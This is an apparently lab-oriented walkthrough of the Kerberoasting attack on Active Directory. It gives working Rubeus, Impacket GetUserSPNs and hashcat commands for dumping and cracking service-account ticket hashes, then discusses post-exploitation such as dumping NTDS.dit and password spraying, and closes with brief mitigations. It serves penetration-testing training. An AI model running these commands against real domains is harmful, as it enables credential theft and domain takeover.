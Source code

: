 # Kerberoasting w/ Rubeus & Impacket

In this task we'll be covering one of the most popular Kerberos attacks - Kerberoasting. Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.\
In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.\
I have already taken the time to put Rubeus on the machine for you, it is located in the downloads folder.\


### Method 1 - Rubeus

\


### Kerberoasting w/ Rubeus -&#x20;

1.) `cd Downloads` - navigate to the directory Rubeus is in\
2.) `Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users    \


<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

\
copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat\
I have created a modified rockyou wordlist in order to speed up the process download it [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt) \
3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

### Method 2 - Impacket

\


### Impacket Installation -&#x20;

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20\
1.) `cd /opt` navigate to your preferred directory to save tools in \
2.) download the precompiled package from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19)\
3.) `cd Impacket-0.9.19` navigate to the impacket directory\
4.) `pip install .` - this will install all needed dependencies

### Kerberoasting w/ Impacket -&#x20;

1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located\
2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.215.150 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.\
3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

### What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

### Mitigation - Defending the Forest



### Kerberoasting Mitigation -

•  Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective\
•  Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.
